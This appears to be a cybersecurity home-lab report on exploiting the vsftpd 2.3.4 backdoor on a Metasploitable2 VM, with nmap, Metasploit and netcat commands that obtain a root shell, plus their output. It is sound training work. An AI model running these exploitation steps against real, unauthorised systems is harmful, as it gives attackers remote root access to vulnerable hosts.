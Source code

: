 # 📊 Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

### 🎯 Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.

---

### 💽 Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |

---

### 🔎 Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

---

### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan

```bash
nmap -sV 192.168.56.102 -p 21
```

**Result**:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

#### 2. Exploit with Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
```

**Result**:

```
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

```bash
nc 192.168.56.102 6200
whoami
```

**Result**:

```
root
```

---

### ✅ Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

### 📸 Screenshots

* Nmap scan result
* Metasploit output
* Netcat shell with `root`

---

### 📂 Files Included

* `vsftpd_exploit.txt` – Exploit commands
* `screenshots/lab1/` – Screenshots folder

---
## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot: ![](../screenshots/lab1/success_root_shell.png)

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
